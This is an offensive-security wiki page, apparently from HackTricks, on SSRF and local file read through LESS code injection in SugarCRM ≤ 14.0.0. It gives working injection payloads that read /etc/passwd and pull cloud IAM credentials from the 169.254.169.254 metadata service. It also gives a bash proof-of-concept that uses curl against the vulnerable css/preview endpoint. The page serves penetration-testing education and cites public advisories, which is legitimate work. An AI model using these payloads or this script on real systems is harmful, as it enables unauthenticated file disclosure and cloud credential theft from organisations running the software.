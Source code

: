 # SSRF Vulnerable Platforms

{{#include ../../banners/hacktricks-training.md}}

Check **[https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/](https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/)**

## LESS Code Injection leading to SSRF & Local File Read

LESS is a popular CSS pre-processor that adds variables, mixins, functions and the powerful `@import` directive.  During compilation the LESS engine will **fetch the resources referenced in `@import`** statements and embed ("inline") their contents into the resulting CSS when the `(inline)` option is used.

When an application concatenates **user-controlled input** into a string that is later parsed by the LESS compiler, an attacker can **inject arbitrary LESS code**.  By abusing `@import (inline)` the attacker can force the server to retrieve:

* Local files via the `file://` protocol (information disclosure / Local File Inclusion).
* Remote resources on internal networks or cloud metadata services (SSRF).

This technique has been seen in real-world products such as **SugarCRM ≤ 14.0.0** (`/rest/v10/css/preview` endpoint).

### Exploitation

1. Identify a parameter that is directly embedded inside a stylesheet string processed by the LESS engine (e.g. `?lm=` in SugarCRM).
2. Close the current statement and inject new directives.  The most common primitives are:
   * `;`  – terminates the previous declaration.
   * `}`  – closes the previous block (if required).
3. Use `@import (inline) '<URL>';` to read arbitrary resources.
4. Optionally inject a **marker** (`data:` URI) after the import to ease extraction of the fetched content from the compiled CSS.

#### Local File Read

```
1; @import (inline) 'file:///etc/passwd';
@import (inline) 'data:text/plain,@@END@@'; //
```

The contents of `/etc/passwd` will appear in the HTTP response just before the `@@END@@` marker.

#### SSRF – Cloud Metadata

```
1; @import (inline) "http://169.254.169.254/latest/meta-data/iam/security-credentials/";
@import (inline) 'data:text/plain,@@END@@'; //
```

#### Automated PoC (SugarCRM example)

```bash
#!/usr/bin/env bash
# Usage: ./exploit.sh http://target/sugarcrm/ /etc/passwd

TARGET="$1"        # Base URL of SugarCRM instance
RESOURCE="$2"      # file:// path or URL to fetch

INJ=$(python -c "import urllib.parse,sys;print(urllib.parse.quote_plus(\"1; @import (inline) '$RESOURCE'; @import (inline) 'data:text/plain,@@END@@';//\"))")

curl -sk "${TARGET}rest/v10/css/preview?baseUrl=1&lm=${INJ}" | \
  sed -n 's/.*@@END@@\(.*\)/\1/p'
```

### Real-World Cases

| Product | Vulnerable Endpoint | Impact |
|---------|--------------------|--------|
| SugarCRM ≤ 14.0.0 | `/rest/v10/css/preview?lm=` | Unauthenticated SSRF & local file read |

### References

* [SugarCRM ≤ 14.0.0 (css/preview) LESS Code Injection Vulnerability](https://karmainsecurity.com/KIS-2025-04)
* [SugarCRM Security Advisory SA-2024-059](https://support.sugarcrm.com/resources/security/sugarcrm-sa-2024-059/)
* [CVE-2024-58258](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-58258)

{{#include ../../banners/hacktricks-training.md}}


